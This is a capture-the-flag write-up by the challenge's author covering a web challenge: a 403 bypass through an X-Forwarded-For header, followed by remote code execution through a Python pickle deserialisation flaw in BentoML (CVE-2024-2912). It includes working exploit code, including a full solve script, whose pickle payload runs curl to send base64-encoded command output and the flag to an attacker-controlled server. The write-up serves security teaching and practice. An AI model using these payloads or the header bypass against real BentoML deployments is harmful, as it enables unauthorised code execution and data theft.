# Summar-AI-ze

## Video Walkthrough

[](https://www.youtube.com/watch?v=5NCzDZcx_Dg "403 Bypass and Deserialization in BentoML library (CVE-2024-2912)")

## Challenge Description

> Summar-AI-ze leverages advanced machine learning algorithms to provide concise and accurate summaries of large texts. Perfect for students, professionals, and anyone who needs to quickly grasp the essence of a document

This challenge was originally created for Defcon but postponed due to it's closed-source nature some infra requirements (image size). I think the [Defcon challenge](https://bugology.intigriti.io/intigriti-monthly-challenges/0824) I made in the end was better anyway, but I still hoped to demo this one. Recently, I rewrote the first part of the challenge entirely, and various other elements were adjusted in order to make it playable.

I hosted it on my [new domain](https://cryptocat.me/): https://challenge.cryptocat.me but I can't afford to keep it up for long. If you want the source code, check out my [discord server](https://discord.gg/qHbAN3wfRK). It's a good place to be! In future, I'll pre-release challenges/hints there and provide \[limited\] technical support 😉

## Solution

### Part 1: Gaining Beta Access

Players open the website to find a new AI service.



They register an account, login and `request beta access`.



Revisiting `/request` produces an error, indicating a real check (tied to the user account).



Players may notice the greyed out `Grant Access` option in the navbar.



The most intuitive option is to try `/grant` endpoint but there is a `Method Not Allowed` error. That's a good sign; it just means we need to try a different HTTP method (POST in this case).

Checking the previous request in burp, players will see a JSON object containing the username.



Changing the endpoint to `/grant` triggers a new error `403: Forbidden`



#### 403 Bypass

One of the first [common techniques](https://trickest.com/blog/bypass-403-endpoints-with-trickest/) we should try to bypass a 403 response is the using the [X-Forwarded-For header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For). We can supply `127.0.0.1` (in various formats) or use the [403 Bypasser extension](https://portswigger.net/bappstore/444407b96d9c4de0adb7aed89e826122)



We're granted beta access, onto part 2 of the challenge 😎

### Part 2: AI Summarization Feature

The AI feature is a real LLM, it's just weak 😂 Hey, I'm not spending money on GPU cycles.



Back to burp.



Notice the content type is JSON? Why not try and use the [Content Type Converter extension](https://portswigger.net/bappstore/db57ecbe2cb7446292a94aa6181c9278) to convert to XML? We are hackers after all, looking at a black box web app (a lot like bug bounty).



Now we get a 500 error: `BentoML does not currently accept application/xml` 💡 Changing the content-type to most values shows a similar error, but you could fuzz it if you like!

A smarter approach might involve looking around for vulnerabilities in the [BentoML library](https://github.com/bentoml/BentoML). Players would quickly discover [this pickle deserialisation bug (CVE-2024-2912)](https://huntr.com/bounties/349a1cce-6bb5-4345-82a5-bf7041b65a68) reported by [PinkDraconian](https://x.com/PinkDraconian). Fun fact; I used to work with Pink but didn't notice his name here until _after_ I made the challenge 😁

#### Deserialization (Python Pickle)

Anyway, the PoC listed above is all you need. Notice the content type is `application/vnd.bentoml+pickle`?

Well, if we set that in our request we get yet another new error: `Error during request to BentoML service`

Don't worry, that's just because our command was invalid (we're doing this blind). Always remember an error does not mean a command wasn't successful! How about a script like this?


```python
import pickle
import os
import requests

class P(object):
    def __reduce__(self): # Update server
        return (os.system, ("curl https://ATTACKER_SERVER/?result=`ls | base64`",))

result = pickle.dumps(P())

# Update session cookie
response = requests.post('https://challenge.cryptocat.me/beta', pickle.dumps(P()), headers={"Content-Type": "application/vnd.bentoml+pickle"}, cookies={
                         "session": ".eJwlzktqAzEQBNC7aJ1FfyS15MsM6h82gQRm7FXI3a2QZRVF8X7KkWdc93J7nq_4KMfDy63wHC7LFgiTMJv0TkA9qKr3Jj6Tsq8Kw2KtXWM2jy68ek73npYRJArOtdnA_aWDwDMAMJppNKyh5G1y9cHIs-0Vd6xiQ7WWDXldcf5rcEe7zjye35_x9cez5TKVFWggCzqkjmpWJ5NuwMwGRjnL7xsgrz_c.Z2r3vw.x5oGTbU8yIOy2AIpbO1k0Z4vWgI"})

print(response.text)

# Write the result to a file
# with open("attack.pkl", "wb") as f:
#     f.write(result)
```


The web server gets a hit and a base64-encoded value is logged as a GET parameter.




```bash
echo "YmVudG9maWxlLnlhbWwKYmV0YV9zZXJ2aWNlLnB5CmZsYWcudHh0Cg==" | base64 -d
bentofile.yaml
beta_service.py
flag.txt
```


Repeat above but with `cat flag.txt` to solve the challenge 😌

Flag: `FLAG{b3n70_ml_607_50m3_m4j0r_155u35}`

#### solve.py

The DB clears every 30 mins so why not wrap everything into a single PoC?


```python
import requests
import pickle
import os
import random
import string
import logging
from bs4 import BeautifulSoup

# Configure logging
logging.basicConfig(level=logging.INFO,
                    format='%(asctime)s - %(levelname)s - %(message)s')
logger = logging.getLogger(__name__)

BASE_URL = "https://challenge.cryptocat.me"

# Generate a random username to avoid conflicts
def generate_random_username():
    return "cat_" + ''.join(random.choices(string.ascii_letters + string.digits, k=8))

# Extract CSRF token from HTML
def get_csrf_token(response_text):
    soup = BeautifulSoup(response_text, 'html.parser')
    csrf_input = soup.find('input', {'name': 'csrf_token'})
    return csrf_input['value'] if csrf_input else None

# Part 1: Register user
def register_user(username, password):
    session = requests.Session()
    # Get CSRF token
    response = session.get(f"{BASE_URL}/register")
    csrf_token = get_csrf_token(response.text)

    # Submit registration
    response = session.post(f"{BASE_URL}/register", data={
        "username": username,
        "password": password,
        "confirm_password": password,
        "csrf_token": csrf_token
    })
    if response.status_code == 200:
        logger.info("User registered successfully.")
    else:
        logger.error("Registration failed.")
    return session.cookies

# Part 2: Login user
def login_user(username, password, session_cookies):
    session = requests.Session()
    # Get CSRF token
    response = session.get(f"{BASE_URL}/login", cookies=session_cookies)
    csrf_token = get_csrf_token(response.text)

    # Submit login
    response = session.post(f"{BASE_URL}/login", data={
        "username": username,
        "password": password,
        "csrf_token": csrf_token
    }, cookies=session_cookies)
    if response.status_code == 200:
        logger.info("Login successful.")
    else:
        logger.error("Login failed.")
    return session.cookies

# Part 3: Grant beta access
def grant_beta_access(username, session_cookies):
    response = requests.post(f"{BASE_URL}/grant", headers={
        "X-Forwarded-For": "127.0.0.1",
        "Content-Type": "application/json"
    }, json={"username": username}, cookies=session_cookies)

    if response.status_code == 200:
        logger.info("Beta access granted.")
    else:
        logger.error("Grant access failed.")

# Part 4: Exploit pickle vulnerability
def exploit(session_cookies):
    class P(object):
        def __reduce__(self):
            return (os.system, ("curl https://ATTACKER_SERVER/?result=`cat flag.txt | base64`",))

    payload = pickle.dumps(P())

    response = requests.post(f"{BASE_URL}/beta", data=payload, headers={
                             "Content-Type": "application/vnd.bentoml+pickle"}, cookies=session_cookies)
    if response.status_code == 200:
        logger.info("Exploit succeeded.")
    else:
        logger.error("Exploit failed.")

if __name__ == "__main__":
    # Generate random username to avoid conflicts
    username = generate_random_username()
    password = "cryptocat_is_the_best"

    # Step 1: Register
    register_cookies = register_user(username, password)

    # Step 2: Login
    login_cookies = login_user(username, password, register_cookies)

    # Step 3: Grant beta access
    grant_beta_access(username, login_cookies)

    # Step 4: Exploit Python Pickle
    exploit(login_cookies)
```


### Summary

The challenge required players to [bypass a 403](https://www.youtube.com/watch?v=PvpXRBor-Jw) restriction, escalating their privileges and gaining access to a beta feature. From there they exploited [CVE-2024-2912](https://nvd.nist.gov/vuln/detail/CVE-2024-2912), a Python pickle deserialization vulnerability found in an open-source machine learning library, gaining RCE.

### Conclusion

If you made it this far, here's some bonus trivia 😃 I mentioned we decided against this challenge for Defcon, here's some of the reasoning:

-   **Closed-source**
    -   Players are more likely to fuzz/brute-force, adding strain on infrastructure
    -   If the infra is down/unstable, players can't run a local instance or review the code
-   **Intentional RCE**
    -   More likely to crash
    -   Players may use shell to interfere with the environment
-   **Infrastructure issues**
    -   We normally host challenges on kubernetes so need to separate DB etc for horizontal scaling, or run multiple (ideally per-team) instances for high-traffic
    -   BentoML image is ~10gb, which often timed out on our deployment system

These were the primary reasons. It's better to save a complex challenge for when we aren't all running around a conference on the other side of the world 😅 I also really wanted to do a cool [client-side path traversal (CSPT) demo](https://www.youtube.com/watch?v=yGRRGUtT9MU) for Defcon, which I struggled to make fit here. Originally there was a path traversal instead of 403 bypass to grant beta access but it wasn't a CSPT, more like a blind server-side API traversal that _could_ exist, but wouldn't be common/make a lot of sense.

Check the walkthrough video (or discord livestream) if you want to see some extra tips/tricks, e.g. match/replace and session handling rules in burp!

Finally, join my [discord server](https://discord.gg/qHbAN3wfRK) to:

-   Ask questions about the challenge
-   Download the source code
-   Gain early access to future challenges/tips
-   Hang out / share cat pics 🐈💜

Hope you had a nice Christmas! 🎅


